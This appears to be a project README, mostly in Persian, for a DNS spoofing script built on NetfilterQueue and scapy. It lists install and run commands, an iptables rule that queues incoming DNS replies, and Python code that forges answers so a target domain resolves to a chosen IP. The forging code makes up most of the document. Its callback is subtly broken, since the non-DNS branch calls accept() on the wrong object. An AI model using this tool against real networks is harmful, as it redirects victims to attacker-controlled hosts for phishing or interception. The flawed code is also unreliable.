

# DNS Spoofing

A simple DNS spoofing with NetfilterQueue and iptables


## نصب ابزار مورد نیاز

این یک اسکریپت جهت انجام حملات دی ان اس اسپوفینگ است و به پایتون ۳ جهت اجرا نیاز دارد. سپس برای نصب پکیج های مورد نیاز دستورات زیرا را وارد کنید:

```bash
pip install scapy
pip install netfilterqueue
```

## اجرای اسکریپت
برای اجرای اسکریپت کافی است ان را به صورت زیر اجرا کنید:

```bash
sudo ./dns-spoof.py --queue 1 --server www.example.com/1.2.3.4
```

این اسکریپت به کمک یک پکیج به اسم نت فیلتر کیو شروع به پردازش بسته ها می کند. یعنی بسته ها را از یک سری صف می خواند و می تواند ان را تغییر دهد یا قبول کند یا ریجکت کند. برای اینکه از این ضف ها استفاده کند. باید از ایپی تیبل کمک بگیرد. یعنی ایپی تیبل پکت های دریافتی را در صف هایی قرار دهد و این اسکریپت این پکت ها را برداشته و پردازش کند. برای اینکه ایپی تیبل این کار را برای ما انجام دهد باید از دستور زیر استفاده کنیم:

```bash
sudo iptables -A INPUT -p udp  --sport 53 -j NFQUEUE --queue-num 1
```

## توضیح اسکریپت

در این قسمت ما داریم یک کامند لاین درست می کنیم. که بتواند دو تا مقدار بگیرد اولی شماره صفی که باید پکت ها را از ان بخواند و دومی ادرس وبسایت به علاوه ایپی که باید جواب دهد. و از طرفی یک ابجکت از نوع نت فیلتر می سازیم و ان را به شماره صفی که در کامند لاین دادیم متصل می کنیم. همچنین یک کال بک برای ان ست می کنیم. که هر پکتی که از صف برداشت ان را به این کال بک بدهد یا عملیات مورد نظر انجام شود:

```python
parser = argparse.ArgumentParser()
parser.add_argument('--queue', required=True, type=int,
                    metavar='Netfilter Queue ID for binding')
parser.add_argument('--server', required=True, type=str,
                    metavar='website/to ip address')
args = parser.parse_args()
splitted = args.server.split('/')
nfqueue = NetfilterQueue()
nfqueue.bind(args.queue, callback)
nfqueue.run()
```

در این قسمت تابع کال بک را مشاهده می کنید که ابتدا کاری که انجام می دهد این است که پیلود پکت که دریافت کرده را برمی دارد. سپس بررسی می کند که ایا پکت مورد نظر از نوع دی ان اس است یا خیر اگر نبود پکت را برای ادامه پردازش به خود کرنل منتقل می کند. بعد از آن بررسی می کند که آیا پکت مورد نظر که از نوع دی ان اس است حاوی ادرسی است که ما می خواهیم ان را عوض کنیم یا خیر. در صورتی که حاوی این ادرس بود یک پکت جدید از نوع دی ان اس می سازیم و در پکت مورد نظر اینجکت می کنیم. و سپس پکت را به کرنل پاس می دهیم:

```python
def callback(packet):
    ip_packet = IP(packet.get_payload())
    # for better throghput check if the packet is dns query
    if not ip_packet.haslayer(DNSQR):
        # accept packet and go to furthur processing
        ip_packet.accept()

    print(f"[*] Recive dns packet for site: {ip_packet[DNSQR].qname.decode()}")
    # check if the dns query contains our target site
    if splitted[0] in ip_packet[DNSQR].qname.decode():
        print("[*] We got dns packet for target site!!!!")
        # we hit the dns query that is about out target. going to change
                      # it's ip packet                                   # since it's dns packet, it must be sent over udp
        new_payload = IP(src=ip_packet[IP].src, dst=ip_packet[IP].dst) / UDP(sport=ip_packet[UDP].sport, dport=ip_packet[UDP].dport) /\
                        DNS(id=ip_packet[DNS].id, qr=1, aa=1, qd=ip_packet[DNS].qd, an=DNSRR(rrname=ip_packet[DNS].qd.qname, ttl=10, rdata=splitted[1]))
        
        # change packet payload
        packet.set_payload(bytes(new_payload))
        # accept packet and go to furthur processing
        packet.accept()
    else:
        # pass the packet. it's not what we want
        packet.accept()
```

## نتایج اجرای اسکریپت

دی ان اس واقعی:


دی ان اس فیک بعد از اجرای اسکریپت:


خروجی اسکریپت:


